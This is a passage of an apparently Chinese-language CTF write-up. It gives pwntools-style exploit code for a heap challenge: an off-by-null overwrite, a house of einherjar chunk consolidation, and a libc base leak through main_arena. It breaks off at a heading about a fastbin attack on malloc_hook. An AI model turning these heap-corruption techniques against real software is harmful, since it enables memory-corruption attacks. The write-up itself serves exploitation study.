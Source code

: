```python


def dp():
	sla('Your choice :', str(3))

#def q():
#	sla(':', str(5))	
```



### 构造堆快布局

```python
	ad(0x80, 'A' * 0x80) # idx 0 为了合并
	ad(0x80, 'B' * 0x80) # idx 1 为了在合并后,然后分割堆快打印出main_arena
	ad(0x68, 'C' * 0x68) # idx 2 为了可以利用fastbin attack 和 off by null
	ad(0xF0, 'E\n') # idx 3 为了使用house of einherjar 合并 chunk 0控制所有堆块
	ad(0x68, 'F\n') #为了防止top chunk 向前合并
```

### 使用house of einherjar 来合并 chunk 1

```python
	rm(2) #为了使用 off by null 覆盖 chunk3 释放重新开辟
	# use house of einherjar
	p = 'C' * 0x60 
	p += p64(0x190) #prev_size = chunk 0 addr - chunk 3 addr
	ad(0x68, p) #使用 off by null 覆盖 chunk 3

	rm(2) #先释放掉进入fastbin中, 后面只需通过溢出修改fd指向我们想要的地方
	# 触发 house of eiherjar
    #避免unlink检查, 先是放掉chunk 0, 这样 chunk0 的fd 和 bk指向的都是main_arena + 88,这样可以绕过unlink检查 FD-bk != P || BK->fd != p
	rm(0) 
	rm(3)  #合并到chunk 0
```

### 泄漏 main_arena 和libc基址

通过分割unsorted bin实现main_arena信息转移,通过开辟0x80内存后, main_arena信息会跑到chunk 1中, 由于我们还对chunk 1没有释放, 直接打印即可获取main_arena + 88 处地址

```python
	# leak main_arena
	ad(0x80, 'A' * 16 + '\n') #分割 unsorted bin, main_arena 会出现在 chunk 1中
	dp()
	main_arena = u64(ru('\x7f')[-5:] + '\x7f\x00\x00') - 0x58
	libc_base = main_arena - 0x3c4b20
	li('main_arena ' + hex(main_arena))
	li('libc_base ' +  hex(libc_base))
```

### fastbin attack打入 malloc_hook处
